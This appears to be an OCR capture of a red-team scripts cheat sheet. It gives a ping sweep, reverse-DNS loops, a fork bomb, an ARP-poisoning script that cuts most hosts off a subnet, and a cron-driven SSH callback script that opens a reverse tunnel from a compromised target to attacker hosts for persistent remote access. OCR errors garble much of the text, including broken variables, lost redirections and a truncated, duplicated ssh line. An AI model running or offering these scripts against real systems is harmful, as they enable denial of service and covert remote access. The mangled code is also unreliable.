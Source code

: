 # Scripts

### Ping Sweep
```
for x in {1..254..1};do ping -c 1 1.1.1.$x | grep "64 b" | cut -d " " -f4 ips.txt; done
```

### Automated Domain Name Resolve Bash Script
```
#!bin/bash
echo "Enter Class C Range: i.e. 192.168.3"
read range
for ip in {1..254..1}; do
host $range.$ip | grep "name pointer" | cut -d " " -f5
done
```

### Fork Bomb

`:(){:|:&};:`

### DNS Reverse Lookup

`for ip in {1..254..1}; do dig -x 1.1.1.$ip | grep $ip dns.txt; done;`

### IP Banning Script

```
#!bin/sh
# This script bans anu IP in the 192.168.0.1 subnet strting st 2
# It Assumes 1 is the router and does not ban IPs .20 .21 .22
i = 2
while [ $i -le 253]
do
  if [ $i -ne 20 -a $i -ne 21 -a  $i -ne 22]; then
      echo "BANNED: arp -s 192.168.1.$i"
      arp -s 192.168.1.$i 00:00:00:00:00:0a
  else
      echo "IP NOT BANNED: 192.168.1.$i ------------------------"
      echo "-----------------------------------------------------"
  fi
  i=`expr $i +1`
done
```

### SSH callback script

Set up script in crontab to callback ever} X minutes. Highlj recommend JOU set up a generic user on red team computer (with no shell privs). Script will use the private kej (located on callback source computer) to connect to a public key (on red team computer). Red teamer connects to target via a local SSH session (in the example below, use #ssh -p4040 localhost)

```
#!/bin/sh
# script located on callback source computer (target)
killall ssh /dev/null 2 &1
sleep 5
REMLIS=4040
REMUSR=user
HOSTS=''domainl.com domain2.com domain3.com''
for LIVEHOST in $HOSTS;
do
  COUNT = $(ping -c2 $LIVEHOST | grep 'recieved' | awk -F ',' '{print $2}' | awk '{print $1}')
  if [[$COUNT -gt 0]]; then
    ssh -R $

ssh -R $(REMLIS}:localhost:22 -i
"/home/$(REMUSR}/.ssh/id rsa" -N $(LIVEHOST} -1 $(REMUSR}
:i
```
